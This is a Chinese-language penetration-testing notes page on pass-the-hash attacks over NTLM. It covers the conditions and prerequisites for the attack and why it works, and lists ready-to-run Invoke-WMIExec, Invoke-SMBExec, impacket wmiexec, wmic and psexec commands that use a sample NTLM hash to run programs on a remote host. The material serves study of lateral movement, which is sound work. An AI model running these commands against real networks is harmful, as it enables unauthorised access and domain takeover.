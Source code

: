 **攻击适用情况**
- 在工作组环境中：
    - Vista 之前的机器，可以使用本地管理员组内用户进行攻击。
    - Vista 之后的机器，只能是 administrator 用户的哈希值才能进行哈希传递攻击，其他用户(包括管理员用户但是非 administrator)也不能使用哈希传递攻击，会提示拒绝访问。
- 在域环境中
    - 只能是域管理员组内用户(可以是域管理员组内非 administrator 用户)的哈希值才能进行哈希传递攻击，攻击成功后，可以访问域内任何一台机器。

**攻击必要条件**

- 哈希传递需要被认证的主机能够访问到服务器
- 哈希传递需要被传递认证的用户名
- 哈希传递需要被传递认证用户的 NTLM Hash

**攻击方式**

通常来说，pass-the-hash 的攻击模式是这样的：
1. 获取一台域主机高权限
2. 利用 mimikatz 等工具导出密码 hash
3. 用导出的 hash 尝试登录其他域主机

要完成一个 NTLM 认证，第一步需要客户端将自己要参与认证的用户名发送至服务器端，等待服务器端给出的 Challenge⋯⋯,其实哈希传递就是使用用户名对应的 NTLM Hash 将服务器给出的 Chanllenge 加密，生成一个 Response，来完成认证。

Pass The Hash 能够完成一个不需要输入密码的 NTLM 协议认证流程，所以不算是一个漏洞，算是一个技巧。

比如 SMB 可以直接基于 TCP 协议或者 NetBIOS over TCP，SMB 的认证可以基于 SMB，也可以基于 kerberos，这两种认证方式，前者本质上使用了 hash，后者本质上使用了 ticket，导致了 SMB 的 PtH 和 PtT 攻击存在的基础。

目前常用的 hash 传递工具都是通过 445 端口进行攻击的，也是因为 smb 使用了 ntml 认证，所以导致可以 hash 传递。

- mimikatz

    mimikatz 的 PTH 相关操作见 [mimikatz 笔记](../../安全工具/Mimikatz.md#pth)

- wmiexec
    - [Invoke-WMIExec](https://github.com/Kevin-Robertson/Invoke-TheHash)
        ```
        Invoke-Module Invoke-TheHash.psd1
        Invoke-WMIExec -Target 192.168.1.1 -Domain workgroup -Username administrator -Hash ccef208c6485269c20db2cad21734fe7 -Command "calc.exe" -verbose
        Invoke-SMBExec -Target 192.168.1.1 -Domain test.local -Username test1 -Hash ccef208c6485269c20db2cad21734fe7 -Command "calc.exe" -verbose
        ```

    - [wmiexec](https://github.com/maaaaz/impacket-examples-windows)
        ```
        wmiexec -hashes 00000000000000000000000000000000:ccef208c6485269c20db2cad21734fe7 workgroup/administrator@192.168.1.1 "whoami"
        ```

- WMIC
    ```cmd
    wmic /node:host /user:administrator /p 密码 process call create “c:\windows\temp\foobar.exe”
    ```

- PStools
    ```cmd
    psexec.exe \\ip -accepteula -u username -p password program.exe
    ```
